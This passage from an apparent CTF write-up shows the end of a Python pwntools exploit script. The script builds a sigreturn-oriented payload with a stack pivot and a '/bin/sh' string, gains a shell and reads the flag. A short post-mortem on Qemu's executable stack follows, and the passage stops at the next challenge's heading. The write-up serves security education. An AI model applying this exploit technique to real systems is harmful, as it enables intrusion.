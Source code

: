 ```python
        # tp
        336: p64(0x42),
        # sp
        320: p64(0x43),
        # ra
        312: p64(0x44),
        # /bin/sh
        64: b"/bin/sh\x00"
    })
    srop = srop.ljust(1024-len(mem_start)-len(do_pivot), b"\xcc")
    
    io.sendlineafter(b"flag:", mem_start + do_pivot + srop + overflow)

    io.sendlineafter(b"gimme", b"1")
    io.sendlineafter(b"Length", b"asd")
    io.sendline(b"cat flag")

    io.recvuntil(b"BtSCTF")
    exit(0)


if __name__ == "__main__":
    main()
```

### Post-mortem

Turns out, programs ran with Qemu have an executable stack, even though it's not marked as such. This is what a player from kalmarunionen wrote to me after the ctf:

![image](/files/bts/imgs/disco.png)

Explains why they solved it so fast :P.

## poniponi-virus

> solves: 7
> 
> Inspired by write-flag-where. write-poni-where?
> poniponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponiponi!!


### Solution
